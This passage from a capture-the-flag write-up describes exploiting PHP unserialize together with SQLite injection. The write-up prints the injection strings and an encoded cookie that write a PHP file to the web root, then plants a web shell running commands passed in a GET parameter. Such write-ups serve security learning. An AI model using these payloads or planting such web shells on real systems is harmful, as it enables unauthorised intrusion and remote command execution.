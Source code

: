 So our `$injection` will look something like this: 

`'); ATTACH DATABASE '/var/www/html/saint.php' AS saint; CREATE TABLE saint.barber (data text); INSERT INTO saint.barber (data) VALUES ('<?php echo \"<pre>\"; system(\"whoami\");?>');-- -`

This is the cookie for the above injection:
 `TzoxMDoiaW5zZXJ0X2xvZyI6MTp7czo4OiJuZXdfZGF0YSI7czoxODI6IicpOyBBVFRBQ0ggREFUQUJBU0UgJy92YXIvd3d3L2h0bWwvc2FpbnQucGhwJyBBUyBzYWludDsgQ1JFQVRFIFRBQkxFIHNhaW50LmJhcmJlciAoZGF0YSB0ZXh0KTsgSU5TRVJUIElOVE8gc2FpbnQuYmFyYmVyIChkYXRhKSBWQUxVRVMgKCc8P3BocCBlY2hvICI8cHJlPiI7IHN5c3RlbSgid2hvYW1pIik7Pz4nKTstLSAtIjt9.0e`

Once we provide the cookie and go to `saint.php` we notice `www-data`. 

<img src="images/image18.png" width="500">

Now lets go for a web shell by adding `system($_GET['saint'])`. Note that the table and column has already been creating. If we try the same injection we will get an error from SQLite. So our next injection will look something like this: 

`'); ATTACH DATABASE '/var/www/html/saint.php' AS saint; INSERT INTO saint.barber (data) VALUES ('<?php echo \"<pre>\"; system(\$_GET[\"saint\"]);?>');-- -`

<img src="images/image19.png" width="600">

And there we go, web shell by exploiting the unserialize function in php and sql injection. After looking around the system i found the flag in the `log.db` database file from the source code.

